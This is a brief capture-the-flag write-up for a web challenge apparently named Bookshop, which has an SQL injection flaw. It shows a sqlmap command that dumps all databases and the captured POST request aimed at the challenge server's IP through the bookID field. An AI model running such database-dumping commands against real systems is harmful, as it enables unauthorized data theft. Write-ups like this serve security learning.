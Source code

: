 ![image-20240414085456483](./assets/image-20240414085456483.png)

Challenge was a Web application that has SQL Injection vulnerability.

![image-20240414004031274](./assets/image-20240414004031274.png)

![image-20240414004233606](./assets/image-20240414004233606.png)

I'm using SQLmap to retrieve flag table.

```
┌──(kali㉿kali)-[~/Desktop/CTF/Web/Bookshop]
└─$ sqlmap -r req.txt --dump-all --exclude-sysdbs
                                                                                                                                                                                                        
┌──(kali㉿kali)-[~/Desktop/CTF/Web/Bookshop]
└─$ cat req.txt                                                                              
POST / HTTP/1.1
Host: 34.126.72.118
Content-Length: 11
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://34.126.72.118
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://34.126.72.118/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

bookID=test
```



![image-20240414005100716](./assets/image-20240414005100716.png)



